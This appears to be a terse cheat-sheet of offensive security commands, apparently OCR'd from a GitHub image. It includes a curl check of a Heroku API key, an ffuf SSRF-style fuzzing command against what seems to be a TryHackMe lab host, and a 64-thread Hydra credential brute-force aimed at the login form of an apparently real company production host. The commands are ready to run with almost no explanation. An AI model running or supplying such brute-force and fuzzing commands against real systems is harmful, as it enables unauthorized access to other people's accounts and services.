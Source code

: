 

Heroku API check 
`curl -X POST https://api.heroku.com/apps -H "Accept: application/vnd.heroku+json; version=3" -H "Authorization: Bearer $HEROKU_API_KEY"`

hydra usage/ Authentication bypass
`sudo hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -P password-biglist.txt -u -f  minimap-fusion.prod.lt.tomtom-global.com  https-post-form "/login:username=^USER^&password=^PASS^:F=Invalid credentials" -V -t 64`


`ffuf -u 'http://nahamstore.thm/stockcheck' -c -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -X POST -d 'product_id=2&server=stock.nahamstore.thm@FUZZ.nahamstore.thm#'`
-fw is meant to filter out and is mw is for matching the word length

